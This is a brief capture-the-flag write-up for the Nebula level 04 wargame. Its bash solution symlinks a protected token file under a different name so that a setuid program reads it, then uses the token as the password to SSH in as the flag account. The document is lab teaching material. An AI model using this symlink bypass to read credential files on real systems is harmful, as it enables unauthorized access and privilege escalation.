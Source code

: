 .. _nebula4:

Nebula 4
========

Basic Information
-----------------

**Home Page** https://exploit-exercises.com/nebula/level04/

Solution
--------
.. code-block:: bash

   $ ln -s /home/flag04/token Token
   $ /home/flag04/flag04 /home/level04/Token
   ssh flag04@localhost
   
.. note:: Token as password

   :bash: `$getflag`
